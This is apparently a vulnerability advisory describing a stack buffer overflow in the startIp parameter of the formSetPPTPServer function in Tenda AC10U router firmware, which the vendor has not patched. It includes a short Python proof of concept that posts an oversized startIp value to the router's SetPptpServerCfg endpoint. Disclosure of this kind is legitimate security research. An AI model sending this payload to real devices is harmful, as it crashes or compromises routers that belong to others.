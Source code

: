 # Tenda AC10U v1.0 US_AC10UV1.0RTL_V15.03.06.49_multi_TDE01 was discovered to contain a stack overflow via the startIp parameter in the formSetPPTPServer function.

## Vulnerability Description

Vendor: Tenda

Product: AC10U

Version: US_AC10UV1.0RTL_V15.03.06.49_multi_TDE01

Type: Buffer Overflow

Firmware link: https://www.tendacn.com/download/detail-3795.html

## Vulnerability Details

The function "formSetPPTPServer" retrieves the parameter "startIp" using "websGetVar" . the value of "startIp" (referred to as "pptp_server_start_ip") is formatted using the sscanf function with the format "%[^.].%[^.].%[^.].%s". This greedy matching mechanism is insecure, as it can cause a stack overflow if the size of the data we enter exceeds the size of "pptp_server_start_each_ip".

![1705402471856](image/formSetPPTPServer/1705402471856.png)

## **Recurring vulnerabilities and POC**

```python
import requests
ip = '192.168.159.128'
url = f'http://{ip}/goform/SetPptpServerCfg'
payload = {
    "startIp": 'a'*0x500
}
res = requests.post(url=url, data=payload)
print(res.content)
```

## Solution

The vendor has not yet provided a fix for the vulnerability, please watch the vendor's homepage for updates:
https://www.tendacn.com/product/specification/ac10u.html
